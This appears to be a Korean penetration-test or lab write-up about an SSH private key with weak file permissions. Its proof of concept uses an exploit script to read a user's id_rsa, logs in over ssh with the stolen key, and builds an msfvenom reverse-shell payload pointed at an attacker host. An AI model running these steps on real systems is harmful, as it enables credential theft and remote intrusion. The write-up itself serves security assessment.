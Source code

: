 #### 레퍼런스

### 3. 잘못된 ssh 개인키 권한 설정
#### 취약점 개요

|정보|설명|
|----|----|
|이름|잘못된 ssh 개인키 권한 설정|
|중요도|상|
|위치|파일 위치: /home/사용자/.ssh/id_rsa|

#### 취약점 설명
해당 취약점은 .ssh 디렉토리 안의 개인키 파일인 id_rsa 파일의 권한을 잘못설정하여 개인키 소유자가 아닌 임의의 공격자가 접근이 가능해 키를 탈취한 뒤 ssh를 사용하여 해당 개인키 소유자로 로그인 가능한 취약점이다.

#### 개념 증명
익스플로잇 코드를 사용하여 권한이 잘못 설정되어있는 miller 사용자의 개인키 파일인 `id_rsa`에 접근하여 파일을 읽어왔다. 이후, 해당 키 값을 가져와 `miller_rsa.pem` 파일을 생성하고 권한을 변경한 뒤 해당 개인키를 사용하여 ssh를 통해 miller 사용자로 접속을 성공하였다.
```sh
┌──(kali㉿kali)-[~/observer]
└─$ python3 50581.py -H http://172.31.157.1:3000
Read file > /home/miller/.ssh/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEAxpydytq5YkrT2O7nQyP0JjFGb81XCsEJMvFWMRqmUeX4wtvEa85o
GbYTRmLWGyNiqk2wtKEkaLmmE7xiUdktredBNSty+4jq8u2PwYNBiJZSWXFK7owgOkjt3C
                            [...]
-----END OPENSSH PRIVATE KEY-----

┌──(kali㉿kali)-[~/observer]
└─$ vim miller_rsa.pem
                                                                            
┌──(kali㉿kali)-[~/observer]
└─$ chmod 600 miller_rsa.pem
                                                            
┌──(kali㉿kali)-[~/observer]
└─$ ssh -i miller_rsa.pem miller@172.31.157.1

miller@ip-172-31-157-1:~$ id;hostname;whoami
uid=1001(miller) gid=1001(miller) groups=1001(miller)
ip-172-31-157-1
miller
```

접속 성공 후, 칼리 리눅스에서 리버스 쉘 페이로드를 생성하였으며 명령어는 다음과 같다.
```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.0.140 LPORT=443 -f elf -o revshell.elf
```
